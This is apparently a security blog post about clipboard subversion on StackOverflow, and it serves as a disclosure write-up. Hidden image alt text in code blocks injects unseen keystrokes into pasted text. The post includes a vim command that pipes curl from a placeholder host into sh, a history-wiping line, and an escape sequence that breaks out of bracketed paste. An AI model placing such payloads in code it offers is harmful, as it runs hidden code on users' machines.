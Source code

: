 ```yaml
---
layout: post
title: Clipboard subversion on StackOverflow
tags: security hacking
---
```

Because Markdown is really a mixture of Markdown syntax and raw HTML to
fill in gaps where Markdown can't do the job, having user-generated
content in Markdown format doesn't help to curb malicious content.
Users are still publishing HTML and have opportunities to embed
something malicious or sneaky.

In the case of StackOverflow, you end up being able to do things like
switch to `<pre>` formatting without escaping all of the contained text
as raw code; so you can embed HTML in the blocks which look like the
code you would want to copy-paste, but with surprise semantics.

The obvious thing is to put some text in a block marked invisible, but
there are mitigations preventing that because that would be a sneaky
thing to do.  Instead you can embed images, and provide alt text for
those images, and you can make those images practically invisible,
and when people copy the text in that code block they'll also
pick up the alt text which they couldn't see on the web page.

Like so:
```markdown
Here is my solution:

<pre>my<img src="https://example.com/invisible_image.gif" alt=" malicious" /> code</pre>

It's really good!
```

You can go try things out in a [sandbox][].  Be warned that not
everything that appears in the preview window is going to turn out
exactly the same once you post it.

Imagine the possibilities!

And yes, I _have_ reported those possibilities which I could imagine to
Stack Exchange.  More on that later.

If you're clever then you might be able to drop in an extra character
somewhere which has a profound effect on the meaning of the code.

You can also emulate non-printing keystrokes by sending their escape
sequences or control codes.  This leads applications to take actions
based on those keystrokes rather than inserting them into an edit buffer
as plain old text.

What sort of keystrokes might you insert?  It depends on where you
expect that the text will be pasted.  Maybe a newline, to make a command
execute before the user is ready; and/or some backspaces to subtly
modify the text after it's been reviewed (replace an 8 with an &, for
example).

But those can be detected easily.  Something more nefarious would be to
target a text editor.  Let's take a crack at vim, for example.
To maximise the chances that the user will be using vim when they
paste your text try offering something to be pasted somewhere like
`~/.vimrc`.  If somebody wants to modify that file what editor do you
think they're going to use?  Typically not emacs.

So if you know you're in vim you could embed something like an escape
character, to enter command mode, and then some commands, like these
ones:

```vim
:call system('(curl -s https://example.com/evilcode|sh)&')
:call histdel('cmd','evilcode')
```

The first executes a shell to get curl to download some code and run it;
and it does so in the background rather than waiting for it to finish.
The second deletes every history entry containing `evilcode`, so it
deletes evidence of our malicious act and, conveniently, it deletes
itself as well.

After that drop back into insert mode and keep adding plausible text to
the file to clear the status line of the result of the last command.

Notice that these are both short commands which will almost certainly
fit on one line.  If they're longer then there's a much greater risk
that the drawing and redrawing of a multi-line command buffer will be
visible to the user, if only in a brief flash which might attract
unwanted attention.

And tere we go.  Running arbitrary code on a random SO user's computer,
and they can't see us doing it!  What fun!

Would I be telling you this if it was really so easy?  No.  OK, maybe.
But it's not.

To mitigate this the terminal and application or shell should be using
[bracketed paste][], which ensures that pasted text is surrounded by
delimiters which indicate that it shouldn't be interpreted as escape
sequences but raw text to be inserted into the file or whatever.

But those delimiters are what?  They're escape sequences.  So you just
put the end marker for bracketed paste into your text in order to make
everything after that be interpreted by the application as keyboard
input again -- just like before bracketed paste was a thing.

Like so:
```html
<img &hellip; alt="&#27;[201~ keyboard input here" />
```

Thankfully a lot of terminals (and after a few months of prodding developers, a few more terminals) strip out some control codes
from pasted text, and this breaks the ability to embed the codes
necessary to escape bracketed paste mode this way.

OSX's Terminal.app even brings up a message box explicitly telling you
you're under attack if it sees the relevant escape sequence.  I think
that's great.  Most other terminals just strip out control codes in some
way or other.

I can't promise that all terminals are filtering correctly, though.

But of course there's yet another potential weakness.  If you can get an
incomplete escape sequence sent then the application can be tricked into
_missing_ the begin-bracketed-paste escape sequence.  To illustrate this
you can simply hit Escape right before pasting something into the
terminal when it should be using bracketed paste.  The resulting
double-escape can cause the bracketed paste opening to be mis-parsed, so
everything that follows is still seen as keystrokes.  You might not be
able to send escapes, but you might still get backspace and newline
through.

To set up such preconditions might take a bit of network timing
manipulation, or remarkable knowledge of unfixed bugs in termcap
entries, or some kind of social engineering to exploit this, so maybe
we're all safe.

I can't promise that, though.

So you might be asking "where's the responsible disclosure?".  Well, I
went through it all years ago.  I tried to cut this off at StackOverflow
first (don't let people embed surprise text, don't let people embed
control codes in text), and then in the browser (don't copy control
codes embedded in HTML text), and then in some terminals (don't let
escape sequences escape the esape sequence that says to ignore other
escape sequences).  For the most part the issue was dismissed as
somebody else's problem, and everybody preferred to keep things as they
are rather than risk breaking some unspecified case which somebody might
be using legitimately.

The only people to take me seriously were Apple, and I got an SVE out of
it for my efforts.  That's probably because I gave them a whole proof of
concept which ran arbitrary code and made it invisible to the user that
arbitrary code had been run (except that I waved a flag to say it had
happened to prove it).

Of course there are still gaps that I see.  There will always be gaps
when systems we rely on are assembled the way they are.  There is a
_lot_ I do not agree with in the way things were designed, here.  The
intrinsic weakness of layers upon layers of escape sequences is absurd
to me, but it's also industry standard and an evergrowing problem as
people design more systems which function this way.  It's become
normalised and there's no stopping it anymore.

The other thing that frustrates me about reporting
vulnerabilities is when they're only superficially addressed.
Just enough to stop me digging any deeper.
When the front door is open you can make a case for security in depth
by pointing out consequential weaknesses behind the door and asking for them all
to be fixed, but too often the reaction is to just close the
door.  What happens when somebody else finds an open window?

Maybe by the time you read this the ability to embed image alt text will have been superficially addressed and you'll have to look for an open window.  Good luck!

[bracketed paste]: <https://en.wikipedia.org/wiki/Bracketed-paste>
[sandbox]: <https://meta.stackexchange.com/q/3122/227423>
[My PoC]: <https://security.stackexchange.com/a/183377>
